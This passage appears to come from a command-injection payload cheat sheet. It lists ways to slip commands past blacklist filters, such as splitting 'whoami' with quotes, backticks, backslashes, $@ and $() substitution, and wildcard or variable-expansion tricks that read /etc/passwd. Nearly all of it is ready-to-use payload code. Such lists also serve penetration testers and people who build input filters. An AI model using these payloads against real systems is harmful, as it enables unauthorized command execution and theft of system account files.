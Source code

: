 ```powershell
root:x:0:0:root:/root:/bin/bash
```


### Bypass Blacklisted words

#### Bypass with single quote

```powershell
w'h'o'am'i
wh''oami
'w'hoami
```

#### Bypass with double quote

```powershell
w"h"o"am"i
wh""oami
"wh"oami
```

#### Bypass with backticks

```powershell
wh``oami
```

#### Bypass with backslash and slash

```powershell
w\ho\am\i
/\b\i\n/////s\h
```

#### Bypass with $@

`$0`: Refers to the name of the script if it's being run as a script. If you're in an interactive shell session, `$0` will typically give the name of the shell.

```powershell
who$@ami
echo whoami|$0
```


#### Bypass with $()

```powershell
who$()ami
who$(echo am)i
who`echo am`i
```

#### Bypass with variable expansion

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

